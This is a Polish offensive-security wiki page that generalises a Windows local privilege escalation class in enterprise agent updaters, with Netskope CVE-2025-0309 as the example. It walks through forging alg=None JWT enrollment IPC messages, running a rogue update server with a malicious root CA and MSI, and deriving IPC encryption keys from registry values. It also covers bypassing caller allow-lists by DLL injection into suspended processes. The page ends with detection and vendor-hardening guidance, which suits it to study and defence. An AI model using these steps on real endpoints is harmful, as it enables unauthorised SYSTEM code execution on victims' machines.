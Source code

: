# Nadużywanie Enterprise Auto-Updaters i uprzywilejowanego IPC (np. Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Ta strona uogólnia klasę łańcuchów Windows local privilege escalation znalezionych w enterprise endpoint agents i updaterach, które udostępniają niskotarciową powierzchnię IPC i uprzywilejowany flow aktualizacji. Reprezentatywnym przykładem jest Netskope Client for Windows < R129 (CVE-2025-0309), gdzie użytkownik o niskich uprawnieniach może wymusić enrollment do serwera kontrolowanego przez atakującego, a następnie dostarczyć złośliwe MSI, które instaluje usługa SYSTEM.

Kluczowe pomysły, które możesz ponownie użyć przeciw podobnym produktom:
- Nadużyj localhost IPC uprzywilejowanej usługi, aby wymusić ponowny re‑enrollment lub rekonfigurację do serwera atakującego.
- Zaimplementuj vendor’s update endpoints, dostarcz złośliwy Trusted Root CA i wskaż updaterowi złośliwy, „podpisany” pakiet.
- Obejść słabe kontrole podpisującego (CN allow‑lists), opcjonalne flagi digest i luźne właściwości MSI.
- Jeśli IPC jest „zaszyfrowane”, wyprowadź key/IV z ogólnodostępnych identyfikatorów maszyny zapisanych w rejestrze.
- Jeśli usługa ogranicza callerów według image path/process name, wstrzyknij do allow‑listowanego procesu lub uruchom go w stanie suspended i bootstrapuj swój DLL przez minimalną łatkę thread‑context.

---
## 1) Wymuszanie rejestracji do serwera atakującego przez localhost IPC

Wiele agentów dostarcza proces UI w user‑mode, który komunikuje się z usługą SYSTEM przez localhost TCP używając JSON.

Zaobserwowano w Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Przebieg exploitu:
1) Stwórz JWT enrollment token, którego claims kontrolują backend host (np. AddonUrl). Użyj alg=None, więc nie jest wymagany żaden podpis.
2) Wyślij IPC message wywołujący provisioning command z Twoim JWT i tenant name:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Usługa zaczyna łączyć się z twoim fałszywym serwerem w celu rejestracji/konfiguracji, np.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- Jeśli weryfikacja wywołującego opiera się na ścieżce/nazwie, wygeneruj żądanie z dozwolonego binarnego pliku dostawcy (zob. §4).

---
## 2) Przejęcie kanału aktualizacji w celu uruchomienia kodu jako SYSTEM

Gdy klient połączy się z twoim serwerem, zaimplementuj oczekiwane endpointy i skieruj go do złośliwego MSI. Typowa sekwencja:

1) /v2/config/org/clientconfig → Zwróć konfigurację JSON z bardzo krótkim interwałem aktualizatora, np.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Zwraca PEM CA certificate. Serwis instaluje go do Local Machine Trusted Root store.
3) /v2/checkupdate → Dostarcza metadane wskazujące na złośliwe MSI i fałszywą wersję.

Omijanie powszechnych kontroli spotykanych w naturze:
- Signer CN allow‑list: serwis może jedynie sprawdzać czy Subject CN = “netSkope Inc” lub “Netskope, Inc.”. Twoje złośliwe CA może wystawić certyfikat leaf z tym CN i podpisać MSI.
- CERT_DIGEST property: dołącz benign MSI property o nazwie CERT_DIGEST. Brak egzekwowania przy instalacji.
- Optional digest enforcement: flaga konfiguracyjna (np. check_msi_digest=false) wyłącza dodatkową walidację kryptograficzną.

Rezultat: usługa SYSTEM instaluje Twoje MSI z
C:\ProgramData\Netskope\stAgent\data\*.msi
wykonując dowolny kod jako NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Od R127, Netskope opakował IPC JSON w pole encryptData, które wygląda jak Base64. Reverse engineering wykazał AES z kluczem/IV wyprowadzonym z wartości rejestru czytelnych dla dowolnego użytkownika:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Atakujący mogą odtworzyć szyfrowanie i wysyłać poprawne zaszyfrowane polecenia z poziomu zwykłego użytkownika. Ogólna wskazówka: jeśli agent nagle „szyfruje” swoje IPC, szukaj device ID, product GUID, install ID w HKLM jako materiału do klucza.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Niektóre usługi próbują uwierzytelnić peer poprzez rozwiązywanie PID połączenia TCP i porównanie ścieżki/nazwy obrazu z listą dozwolonych binarek vendorowych umieszczonych w Program Files (np. stagentui.exe, bwansvc.exe, epdlp.exe).

Dwa praktyczne obejścia:
- DLL injection do procesu z listy dozwolonych (np. nsdiag.exe) i proxy IPC z jego wnętrza.
- Uruchomienie allow‑listed binarki w stanie suspended i załadowanie własnego proxy DLL bez CreateRemoteThread (zob. §5), aby spełnić reguły wymuszane przez driver.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Produkty często dostarczają minifilter/OB callbacks driver (np. Stadrv), który usuwa niebezpieczne prawa z uchwytów do chronionych procesów:
- Process: usuwa PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: ogranicza do THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Niezawodny loader w user‑mode, który respektuje te ograniczenia:
1) CreateProcess vendor binary z CREATE_SUSPENDED.
2) Uzyskaj uchwyty, na które nadal masz prawo: PROCESS_VM_WRITE | PROCESS_VM_OPERATION do procesu oraz uchwyt wątku z THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (lub tylko THREAD_RESUME jeśli łatasz kod przy znanym RIP).
3) Nadpisz ntdll!NtContinue (lub inny wczesny, gwarantowany‑mapped thunk) małym stubem, który wywołuje LoadLibraryW na ścieżce Twojego DLL, a następnie skacze z powrotem.
4) ResumeThread, aby uruchomić stub w procesie i załadować Twój DLL.

Ponieważ nigdy nie użyłeś PROCESS_CREATE_THREAD ani PROCESS_SUSPEND_RESUME na już‑chronionym procesie (ty go utworzyłeś), polityka drivera jest spełniona.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatyzuje rogue CA, podpisanie złośliwego MSI i serwuje potrzebne endpointy: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope to custom IPC client, który tworzy arbitralne (opcjonalnie AES‑szyfrowane) IPC messages i zawiera suspended‑process injection, aby pochodzić z allow‑listed binary.

---
## 7) Detection opportunities (blue team)
- Monitoruj dodatki do Local Machine Trusted Root. Sysmon + registry‑mod eventing (zob. SpecterOps guidance) działa dobrze.
- Oznaczaj wykonania MSI inicjowane przez usługę agenta z lokalizacji takich jak C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Przeglądaj logi agenta pod kątem nieoczekiwanych hostów/tenantów rejestracji, np.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – szukaj addonUrl / tenant anomalii oraz provisioning msg 148.
- Alertuj na localhost IPC clients, które nie są oczekiwanymi signed binaries lub które pochodzą z nietypowych drzew procesów potomnych.

---
## Hardening tips for vendors
- Powiąż enrollment/update hosts ze ścisłą allow‑listą; odrzucaj nieufne domeny w clientcode.
- Uwierzytelniaj IPC peers przy użyciu OS primitives (ALPC security, named‑pipe SIDs) zamiast sprawdzania ścieżki/nazwy obrazu.
- Trzymaj tajne materiały poza world‑readable HKLM; jeśli IPC musi być szyfrowane, wyprowadzaj klucze z chronionych sekretów lub negocjuj je przez authenticated channels.
- Traktuj updater jako surface supply‑chain: wymagaj pełnego chain do trusted CA, którą kontrolujesz, weryfikuj podpisy pakietów względem pinned keys i fail closed jeśli walidacja jest wyłączona w konfiguracji.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
